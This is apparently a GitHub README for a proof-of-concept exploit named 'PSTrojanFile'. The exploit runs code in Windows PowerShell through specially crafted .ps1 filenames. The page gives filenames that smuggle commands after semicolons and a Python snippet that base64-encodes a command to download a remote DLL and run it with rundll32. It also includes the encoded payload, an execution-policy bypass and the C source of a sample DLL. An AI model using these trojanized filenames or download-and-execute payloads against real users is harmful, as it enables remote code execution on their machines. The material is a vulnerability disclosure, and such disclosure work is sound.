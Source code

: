 # PSTrojanFile
Windows PowerShell Filename Code Execution POC

Dusted this off and improved it a bit, reported to Microsoft in 2019 remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 PAYLOAD];.ps1 <br>  

OR just call commands straight away!
Testing;saps (gc -) PoC.ps1

1) Execute a remote DLL using rundll32
2) Execute an unintended PS script (for a short non base64 encoded filename)
3) Execute a hidden text-file: Testing;saps (gc -) PoC.ps1  (Optional: attrib +s +h text-file)

Vectors: double click, drag and drop to PS shortcut
Requirements: user must have the following setting to call a secondary script
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

Create a trojan PS1 file that will try to download and execute a remote DLL namec "1.d"

Python: <br>  
from base64 import b64encode
b64encode("saps  http://127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code:
#include <windows.h>
//gcc -shared -o mydll.dll mydll.c -m32
//hyp3rlinx 
void evilo(void){
MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1);
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){
evilo();
return 0;
}

Video PoC:

